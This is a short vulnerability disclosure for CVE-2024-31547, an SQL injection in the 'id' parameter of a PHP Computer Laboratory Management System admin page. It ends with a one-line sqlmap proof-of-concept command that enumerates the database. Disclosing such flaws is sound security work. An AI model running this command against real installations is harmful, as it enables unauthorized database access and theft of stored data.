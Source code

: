 
# CVE-2024-31547 SQL Injection in Computer Laboratory Management System
+ Exploit Author: Emirhan Mutlu
# Vendor Homepage
+ https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html
# Software Link
+ https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html
# Overview
+ A SQL Injection vulnerability in Computer Laboratory Management System allows attackers to execute arbitrary SQL commands on the database server and exfiltrate sensitive data.
# Vulnerability Details
+ CVE ID: CVE-2024-31547
+ Vulnerable Endpoint: /php-lms/admin/item/view_item.php?id=1
+ Parameter: id
# Description
+ The lack of proper input validation and sanitization on the 'id' parameter allows an attacker to craft SQL injection queries and gaining unauthorized access to the database.

# Proof of Concept (PoC) : 
+ `sqlmap -u "http://localhost/php-lms/admin/item/view_item.php?id=1" --batch --level 5 --risk 3 --dbms=mysql --current-db --threads 10`
